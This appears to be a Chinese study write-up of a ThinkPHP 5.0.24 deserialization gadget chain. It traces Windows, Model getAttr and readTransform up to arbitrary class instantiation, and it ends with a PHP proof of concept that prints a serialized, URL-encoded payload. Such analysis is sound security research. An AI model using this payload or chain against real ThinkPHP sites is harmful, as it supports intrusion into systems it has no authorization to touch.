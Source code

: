 # ThinkPHP 5.0反序列化利用链学习
---

## 安装环境
下面2个都要下载
[framework v5.0.24](https://github.com/top-think/framework/tree/v5.0.24)
[think v5.0.24](https://github.com/top-think/think/tree/v5.0.24)
并且将`framework`下载好后的`framework-5.0.24`改名为为`thinkphp`放到`think-5.0.24`文件夹中
这里直接在sublime中运行`/public/index.php`文件调试



## 利用链
入口还是利用`Windows`类触发`__toString()`
只不过没有`Conversion.php`，这里找到`thinkphp/library/think/Model.php`
![](./pics5.0/1.png)
![](./pics5.0/2.png)
![](./pics5.0/4.png)
有`$relation->append($name)`，`$relation`由`$relation = $this->getAttr($key);`而来
和5.1类似，`getAttr()`由`getData()`而来，`getData()`返回值又可控
![](./pics5.0/5.png)
![](./pics5.0/6.png)
<s>这里又和5.1后面类似了，还是存在`think/Request.php`</s>...
![](./pics5.0/7.png)
发现这里`hook`竟然变成了`静态属性`：归类管理，不属于某个对象，所以无法使用对象直接访问静态属性。类的内部可以使用 self。且不可序列化。
![](./pics5.0/8.png)
也就不可控了
<!--
随便找个`__call()`来用，这里我找到`thinkphp/library/think/view/driver/Think.php`
![](./pics5.0/9.png)
`$method`不可控,`append`方法无法利用
好的，这里我们路走死了🤦‍♀️
-->
换个思路,回到`Model.php`的`getAttr()`，看到
![](./pics5.0/10.png)
`$type[$name]`，`$value`也可控
跟到`readTransform()`方法，也就是传入的`$value`,`$type`可控
![](./pics5.0/11.png)
![](./pics5.0/12.png)
可以实例化任意类，且参数可控
找找`__construct()`，暂时未找到进一步可利用点,tcl
<!--
好的，路又死了
`thinkphp/library/think/cache/driver/File.php` 可以创建任意目录
`thinkphp/library/think/cache/driver/Sqlite.php` 创建SQLite数据库
 
 
 
实例化类找调用 __call()的 例如thinkphp/library/think/view/driver/Php.php
的display可触发eval，找display()

`class Command{}`的`run()`
`namespace think\view\driver; Think ` 的 `__call()`可以变相控方法名？

`class Template` new任意无参数类
找`call_user_func_array(`?
-->




## POC
### 实例化任意类测试
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think{
    class Model{
        protected $data = ["c014"=>"123"];
        protected $type = ["c014"=>"think\console\input\Definition"];
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}


namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```
